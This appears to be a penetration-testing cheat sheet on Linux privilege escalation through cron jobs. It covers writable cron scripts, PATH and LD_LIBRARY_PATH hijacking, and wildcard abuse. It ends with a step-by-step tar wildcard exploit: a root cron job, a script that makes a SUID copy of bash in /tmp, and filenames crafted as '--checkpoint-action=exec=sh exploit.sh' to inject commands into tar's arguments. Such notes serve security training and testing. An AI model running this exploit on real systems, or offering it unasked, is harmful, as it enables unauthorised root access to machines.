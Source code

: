 **Misc cron**:
- *cron file permessions*
    - _Can be edited the file executed by cron?_
    - _Does the script in the cron execute other binary or script? Can they be modified?_
- *writable PATH folder* + *no absolute filename*
    - if script/binary cron jobs do not use an absolute path and one of the directories defined in `PATH` are writable by our user then we can create a program/script with the same name as the one defined in the cron job
- *wildcards and filenames*
    - check whether `*` is used as part of a command argument as the shell will first do a _filename expansion_ operation on the wildcard; if so, generate filenames that allow shell escape sequences with the help of _GTFOBins_
- *writable LD_LIBRARY_PATH folder* + *missing shared object* (*shared object injection*)
	- if script/binary cron job uses a non-existent *shared object* and one of the directories defined in `LD_LIBRARY_PATH` is writable by our user then we can create a program/script with the same name as the one used by the cron job. Same thing if *shared object* exists, but the writable directory in `LD_LIBRARY_PATH` has priority over the one used by the binary

## tar_wildcard

The guide applies to the 'tar' binary. Similar vulnerability also applies in the case of '7z' and '7za' (*arbitrary file read*).

Assume we have a cronjob like this:

```txt
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

Let us enter into target folder:

```shell
$ cd /home/andre/backup/
```

First we create a file called `exploit.sh`. This is its content:

```shell
#!/bin/bash
cp $(which bash) /tmp/rootbash
chmod 4777 /tmp/rootbash
```

We give the script the necessary permissions to be executed:

```shell
$ chmod +x exploit.sh
```

We create the payload that will give us a root shell with SUID set:

```shell
$ echo "" > "--checkpoint=1"
$ echo "" > "--checkpoint-action=exec=sh exploit.sh"
```

In `/tmp` we will find the rootbash.
